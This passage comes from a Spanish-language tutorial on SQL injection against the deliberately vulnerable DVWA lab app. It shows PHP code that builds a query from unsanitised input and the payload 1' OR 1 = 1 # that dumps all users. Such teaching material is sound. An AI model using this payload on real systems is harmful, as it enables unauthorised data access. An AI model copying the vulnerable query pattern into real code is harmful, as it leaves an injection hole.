 Al final de la página nos aparece un botón con el texto `View Source` que nos
permite ver el código fuente de la página.

En este repositorio se ha incluido el código fuente que utiliza el formulario del ejemplo, para que pueda estudiarlo con detalle. [Ver el código fuente del archivo `brute_source_low.php`](vulnerabilities/sqli_source_low.php).

El código fuente que utiliza esta aplicación para recibir el parámetro del
formulario y construir la consulta SQL es el siguiente:

```php
// Get input
$id = $_REQUEST[ 'id' ];
...
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

Podemos hacer un ataque de tipo _SQL Injection_ para obtener el listado de todos
los usuarios que existen en la base de datos, introduciendo el siguiente valor
en el campo `id` del formulario:

```
1' OR 1 = 1 #
```

Al enviar este valor la cadena con la consulta SQL que se ejecutará en la base
de datos será la siguiente:

```SQL
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1 = 1 #';
```

Tenga en cuenta que todo lo que aparezca después del carácter `#` será
considerado como un comentario y no se ejecutará.

![](images/08.png)


[1]: https://github.com/digininja/DVWA
[2]: https://en.wikipedia.org/wiki/SQL_injection
[3]: https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
[4]: https://owasp.org/www-community/attacks/SQL_Injection
[5]: https://bobby-tables.com 
[6]: https://owasp.org/www-community/attacks/Blind_SQL_Injection